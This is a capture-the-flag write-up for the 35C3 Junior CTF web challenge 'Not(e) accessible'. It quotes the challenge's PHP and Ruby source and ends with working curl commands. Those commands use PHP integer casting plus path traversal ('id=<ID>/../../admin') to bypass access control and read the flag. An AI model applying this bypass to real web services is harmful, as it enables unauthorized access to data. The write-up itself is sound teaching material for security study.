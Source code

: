 # Not(e) accessible
Web

## Description:
> We love notes. They make our lifes more structured and easier to manage! In 2018 everything has to be digital, and that's why we built our very own note-taking system using micro services: Not(e) accessible! For security reasons, we generate a random note ID and password for each note.
> 
> Recently, we received a report through our responsible disclosure program which claimed that our access control is bypassable...

## Solution:

The website offers a service where one can enter a note. 

After entering the requested note (e.g. "Test"), the response contains the following information:
```
Your note ID is 8156135140806036359
Your note PW is 0cbc6611f5540bd0809a388dc95a615b
Link to view note: http://35.207.132.47:90/view.php?id=8156135140806036359&pw=0cbc6611f5540bd0809a388dc95a615b
```

Some observations: 
* When entering the same text twice, the ID changes but the PW does not.
* Searching for the PW, it looks like it is the MD5 of the note.
* The website source code has the following comment: `<!-- My source is at /src.tgz -->`

The next step is obviously to try and download the source code, and indeed - such an archive exists.

After extracting it, we get:

```ruby
# File path: backend/app.rb:

require 'sinatra'
set :bind, '0.0.0.0'

get '/get/:id' do
	File.read("./notes/#{params['id']}.note")
end

get '/store/:id/:note' do 
	File.write("./notes/#{params['id']}.note", params['note'])
	puts "OK"
end 

get '/admin' do
	File.read("flag.txt")
end
```

```php
# File path: frontend/index.php
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <link rel="stylesheet" href="/assets/css/bootstrap.min.css">
    <title>Not(e) accessible</title>
<!-- My source is at /src.tgz -->
    <style>
html {
  position: relative;
  min-height: 100%;
}

body {
  padding-top: 5rem;
  margin-bottom: 60px; /* Margin bottom by footer height */
}
.starter-template {
  padding: 3rem 1.5rem;
  text-align: center;
}
.footer {
  position: absolute;
  bottom: 0;
  width: 100%;
  height: 60px; /* Set the fixed height of the footer here */
  line-height: 60px; /* Vertically center the text there */
  background-color: #f5f5f5;
}
    </style>
</head>
    <body>

    <nav class="navbar navbar-expand-md navbar-dark bg-dark fixed-top">
      <a class="navbar-brand" href="/">Not(e) accessible</a>
    </nav>

    <main role="main" class="container">

      <div class="starter-template">
        <h1>Not(e) accessible :-(</h1>
        <p class="lead">This is good service. It is not(e) accessible!</p>
      </div>
      <div class="container">
        <form method="post">
              <div class="form-group">
                <label for="note">Enter your text</label>
                <textarea class="form-control" name="note" id="note" placeholder="Your note here!" rows="3"></textarea>
              </div>
              <button type="submit" class="btn btn-primary" name="submit" value="submit">Submit note!</button>
        </form>
      </div>

<?php
    require_once "config.php";

    if(isset($_POST['submit']) && isset($_POST['note']) && $_POST['note']!="") {
        $note = $_POST['note'];

        if(strlen($note) > 1000) {
            die("ERROR! - Text too long");
        }

        if(!preg_match("/^[a-zA-Z]+$/", $note)) {
            die("ERROR! - Text does not match /^[a-zA-Z]+$/");
        }

        $id = random_int(PHP_INT_MIN, PHP_INT_MAX);
        $pw = md5($note);
        
        # Save password so that we can check it later
        file_put_contents("./pws/$id.pw", $pw); 

        file_get_contents($BACKEND . "store/" . $id . "/" . $note);

        echo '<div class="shadow-sm p-3 mb-5 bg-white rounded">';
            echo "<p>Your note ID is $id<br>";
            echo "Your note PW is $pw</p>";

            echo "<a href='/view.php?id=$id&pw=$pw'>Click here to view your note!</a>";
        echo '</div>';
    }
?>
    </main>

<footer class="footer">
      <div class="container">
        <span class="text-muted">With love from <a href="https://twitter.com/gehaxelt">@gehaxelt</a> for the 35C3 Junior CTF and ESPR :-)</span>
      </div>
</footer>


        <script src="/assets/js/jquery-3.3.1.slim.min.js"></script>
        <script src="/assets/js/popper.min.js"></script>
        <script src="/assets/js/bootstrap.min.js"></script>
    </body>
</html>
```

```php
# File path: frontend/view.php:
<?php header("Content-Type: text/plain"); ?>
<?php 
    require_once "config.php";
    if(isset($_GET['id']) && isset($_GET['pw'])) {
        $id = $_GET['id'];
        if(file_exists("./pws/" . (int) $id . ".pw")) {
            if(file_get_contents("./pws/" . (int) $id . ".pw") == $_GET['pw']) {
                echo file_get_contents($BACKEND . "get/" . $id);
            } else {
                die("ERROR!");
            }
        } else {
            die("ERROR!");
        }
    }
?>
```

The backend catches the immediate attention due to the following logic:
```ruby
get '/admin' do
	File.read("flag.txt")
end
```

So, we need to find a way to either access `/admin` or directly access `flag.txt`.

Back to `view.php`:
```php
if(file_exists("./pws/" . (int) $id . ".pw")) {
    if(file_get_contents("./pws/" . (int) $id . ".pw") == $_GET['pw']) {
        echo file_get_contents($BACKEND . "get/" . $id);
    }
    ...
}
```

The `file_get_contents` call looks like it is vulnerable to path traversal - if we get it to be `../admin` then we should get the flag. However, how to we bypass the checks above? Easy - with the help of the type casting! 

Since `$id` is cast to an integer, if we send a string which starts with a number, the PHP engine will ignore anything that comes after it. So we just need a valid ID-PW pair, and we send the ID as `<ID>/../../admin`. The first two checks should pass since they will only take into account the ID, and the third line will actually tread the ID as a folder.

```console
root@kali:/media/sf_CTFs/35c3ctf/Note_accessible# curl -s 'http://35.207.132.47:90/' -H 'Content-Type: application/x-www-form-urlencoded'  --data 'note=Test&submit=submit' | grep "Your note ID"
<div class="shadow-sm p-3 mb-5 bg-white rounded"><p>Your note ID is 140357144873505230<br>Your note PW is 0cbc6611f5540bd0809a388dc95a615b</p><a href='/view.php?id=140357144873505230&pw=0cbc6611f5540bd0809a388dc95a615b'>Click here to view your note!</a></div>    </main>
root@kali:/media/sf_CTFs/35c3ctf/Note_accessible# curl -s 'http://35.207.132.47:90/view.php?pw=0cbc6611f5540bd0809a388dc95a615b&id=140357144873505230/../../admin'
35C3_M1Cr0_S3rvices_4R3_FUN!
```

The flag: 35C3_M1Cr0_S3rvices_4R3_FUN!



